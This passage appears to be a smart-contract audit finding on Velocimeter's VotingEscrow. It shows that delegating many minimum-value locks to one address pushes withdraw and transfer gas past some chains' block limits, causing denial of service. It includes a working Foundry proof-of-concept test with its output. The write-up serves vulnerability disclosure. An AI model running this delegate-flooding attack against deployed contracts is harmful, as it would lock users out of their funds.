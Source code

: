 The sponsor has also stated that it should be assumed the code will be deployed to all EVM compatible chains:
> dawid.d | Velocimeter — 18/07/2024 02:18
> you should assume that it can be deployed to any chain that is fully evm compatible

When testing the gas usage of withdrawing a tokenId that currently has the maximum number of delegates, the gas usage is:
`console::log("gas used:", 23637422 [2.363e7]) [staticcall]`

Popular EVM compatible chains block gas limit (under 24m):
[Scroll EVM](https://scrollscan.com/block/7277054): 10,000,000
[Gnosis Chain](https://gnosisscan.io/block/34879385): 17,000,000

## POC
Add the following test function to `VotingEscrow.t.sol`:
```solidity
    function testDelegateLimitAttack() public {
        vm.prank(address(owner));
        flowDaiPair.approve(address(escrow), type(uint256).max);
        uint tokenId = escrow.create_lock(TOKEN_1, 7 days);
        for(uint256 i = 0; i < escrow.MAX_DELEGATES() - 1; i++) {
            vm.roll(block.number + 1);
            vm.warp(block.timestamp + 2);
            address fakeAccount = address(uint160(420 + i));
            flowDaiPair.transfer(fakeAccount, 1);
            vm.startPrank(fakeAccount);
            flowDaiPair.approve(address(escrow), type(uint256).max);
            escrow.create_lock(1, FIFTY_TWO_WEEKS);
            escrow.delegate(address(this));
            vm.stopPrank();
        }
        vm.roll(block.number + 1);
        vm.warp(block.timestamp + 7 days);
        uint initialGas = gasleft();
        escrow.withdraw(tokenId);
        uint gasUsed = initialGas - gasleft();
        console.log("gas used:", gasUsed);
    }
```
To run:
`forge test --match-test testDelegateLimitAttack  -vv`
Output: 
```javascript
[PASS] testDelegateLimitAttack() (gas: 12470671686)
Logs:
  gas used: 23637422
```

## Impact

As seen, this upper gas limit exceeds the outlined EVM-compatible chains, meaning the current hardcoded value of `MAX_DELEGATES` can lead to a DOS by delegating minimum value locks to an address, causing that tokenId to revert when calling any function that calls `_moveTokenDelegates` as the gas utilised will exceed the chains gas limit for a singular block. Affected functions: [transferFrom()](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L353-L359), [withdraw()](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L955-L979), [merge()](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L1195-L1210), [_mint()](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L483-L492).
